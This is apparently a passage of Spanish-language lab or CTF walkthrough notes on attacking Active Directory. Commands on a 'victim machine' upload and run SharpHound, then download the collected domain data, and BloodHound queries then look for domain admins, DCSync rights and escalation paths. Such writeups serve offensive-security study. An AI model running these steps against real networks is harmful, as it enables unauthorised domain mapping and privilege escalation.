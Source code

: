 #### MÁQUINA VÍCTIMA
```bash
cd C:\Windows\Temp
```
```bash
mkdir privs
```
```bash
cd privs
```
```bash
upload /opt/BloodHound-linux-x64/SharpHound.exe
```
```bash
.\SharpHound.exe -c All
```
```bash
download C:\Windows\Temp\privs\20220718205025_BloodHound.zip bloodhound.zip
```

### BLOODHOUND INTERACTION

Ya tenemos la información descargada en nuestro equipo, ahora procedemos a revisar la data con `bloodhound`

```bash
neo4j console &>/dev/null & disown
```
```bash
bloodhound &>/dev/null & disown
```
```bash
# INGRESAR CREDENCIALES DE ACCESO
```

#### SEGUIR SECUENCIA EN BLOODHOUND
> 
Upload Data > bloodhound.zip > Analysis > Find all domain admins
                      > Find Principals with DCSync Rights > Domaim
>

#### ENUMERAR GRUPOS
>
Buscar Shared support accounts> node info > Reachable High Value Targets
>

#### MARCAR USUARIOS PWNED
> 
Buscar user > mark user as owned									 
>

#### ESCALAMIENTO
> 
Node info > Reachable High Value Targets
>
